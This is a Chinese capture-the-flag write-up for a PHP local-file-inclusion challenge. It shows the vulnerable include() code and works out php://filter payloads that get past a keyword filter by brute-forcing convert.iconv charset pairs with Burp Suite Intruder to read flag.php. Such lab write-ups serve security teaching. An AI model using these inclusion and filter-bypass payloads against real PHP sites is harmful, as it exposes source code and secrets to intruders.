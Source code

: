 # fileinclude 过滤

题目

```
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```
伪协议
```http request
GET /?filename=php://filter/convert.base64-encode/resource=./check.php/ HTTP/1.1
```
* 【base64编码 是为了防止flag 在代码的注释中，所以使用base64解码 显示注释部分】

* 直接伪协议绕过，会出现 do not hack!  存在过滤

----

## 对过滤的处理

* 使用
* ?filename=1hp://1ilter/1ead=1onvert.1ase64-1ncode/1esource=1lag.1hp
* 逐一测试，将要测试的字符串中的1改回去即可

得到
```
/?filename=php://filter/1ead=convert.1ase64-1ncode/resource=flag.php
```
所以 需要绕过 read base64 encode 

### 对于read的处理
*  read：两者效果一样。
* 条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；
```
?filename=php://filter/convert.base64-encode/resource=xxx.php
?filename=php://filter/read=convert.base64-encode/resource=xxx.php
```

### 对过滤器convert.base64-encode的处理

https://blog.csdn.net/qq_44657899/article/details/109300335

由于convert还可以使用，所以选择使用其他的过滤器convert.iconv.* 

使用方法：convert.iconv.<input-encoding>.<output-encoding> 或者 convert.iconv.<input-encoding>/<output-encoding>


这里的<input-encoding>和<output-encoding>分别为输入的字符串编码方式和输出的字符串编码方式（字符集）。可选项如下（PHP: 支持的字符编码 ）：

#### 编码方式
https://www.php.net/manual/zh/mbstring.supported-encodings.php
```
UCS-4
UCS-4BE
UCS-4LE
UCS-2
UCS-2BE
UCS-2LE
UTF-32
UTF-32BE
UTF-32LE
UTF-16
UTF-16BE
UTF-16LE
UTF-7
UTF7-IMAP
UTF-8
ASCII
EUC-JP
SJIS
eucJP-win
SJIS-win
ISO-2022-JP
ISO-2022-JP-MS
CP932
CP51932
SJIS-mac
SJIS-Mobile#DOCOMO
SJIS-Mobile#KDDI
SJIS-Mobile#SOFTBANK
UTF-8-Mobile#DOCOMO
UTF-8-Mobile#KDDI-A
UTF-8-Mobile#KDDI-B
UTF-8-Mobile#SOFTBANK
ISO-2022-JP-MOBILE#KDDI
JIS
JIS-ms
CP50220
CP50220raw
CP50221
CP50222
ISO-8859-1
ISO-8859-2
ISO-8859-3
ISO-8859-4
ISO-8859-5
ISO-8859-6
ISO-8859-7
ISO-8859-8
ISO-8859-9
ISO-8859-10
ISO-8859-13
ISO-8859-14
ISO-8859-15
ISO-8859-16
byte2be
byte2le
byte4be
byte4le
BASE64
HTML-ENTITIES
7bit
8bit
EUC-CN
CP936
GB18030
HZ
EUC-TW
CP950
BIG-5
EUC-KR
UHC
ISO-2022-KR
Windows-1251
Windows-1252
CP866
KOI8-R
KOI8-U
ArmSCII-8
```

## payload
brupsuit 抓包 ctrl+i 爆破
```http request
GET /?filename=php://filter/convert.iconv.§§.§§/resource=flag.php / HTTP/1.1
Host: 61.147.171.105:56702
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

* brupsuit cluster Bomb
* 将上述编码方式做成字典 添加两个set 爆破 得到flag

![img.png](imgs/编码方式爆破.png)

---
## brup 爆破模式
![img.png](imgs/brupsuit爆破模式1.png)
![img_1.png](imgs/brupsuit爆破模式2.png)